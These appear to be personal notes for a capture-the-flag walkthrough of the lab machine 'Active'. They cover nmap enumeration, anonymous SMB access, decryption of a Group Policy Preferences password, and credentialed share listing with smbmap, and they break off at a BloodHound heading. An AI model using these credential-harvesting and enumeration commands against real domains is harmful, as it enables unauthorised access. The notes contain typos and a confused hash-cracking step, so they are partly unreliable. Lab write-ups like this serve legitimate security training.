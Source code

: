 ## **Box Info::**
OS: Windows \
IP: 10.10.10.100

## **Skills learned::**
Windows
Active Directory
Kerberoasting
Powershell

### **Enumeratiion::**
nmap -p- -A -oN (-f to bypass FW) Activeports.txt ${IP}
dnsrecon -d 10.10.10.100 -r 10.0.0.0/8
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
        #find all nmap scripts to enum smb

```
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-25 01:07:00Z) #Make sure attack box is within 1min of this time.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? *** Nice target to try first ***
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
Host script results:
|_clock-skew: 23m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-25T01:07:55
|_  start_date: 2021-12-25T01:04:50

```

### **OSINT::**
+ https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage
+ 

### **Part 1::** 
```
smbclient -L \\\\Active\\                                                                             1 ⨯
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
        
smbclient \\\\Active\\Replication
      smb: \active.htb\Policies\> ls
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sat Jul 21 06:37:44 2018
      {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sat Jul 21 06:37:44 2018
      
 smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> more Groups.xml
      <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

  smb: prompt off
  smb: resurse on
  smb: mget *
```
  # gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ :: GPPstillStandingStrong2k18
  
  **Creds::**
  active.htb/svc_tgs:GPPstillStandingStrong2k18
  
  enum4linux <ip> # gives smb share login access.
  smbmap -H <ip> # lists shares 
        smbmap -R <share name> -H <ip> -A <file> -q #quiet
   
  GetADUsers.py -all active.htb/svc_tgs -dc-ip <ip>
  
 Try smbmap again::
        smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip>
        :: Now READ ONLY access to NETLOGON,Replication,SYSVOL,Users
         smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip> -R Users #recursively list files in Users smb share 
 smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt -q
        cat user.txt :: 86d67d8ba232bb6a254aa4d10159e983 >hashsmb.txt
        hashcat hashsmb.txt /usr/share/wordlist/rockyou.txt
        
**Part II: Bloodhound::**
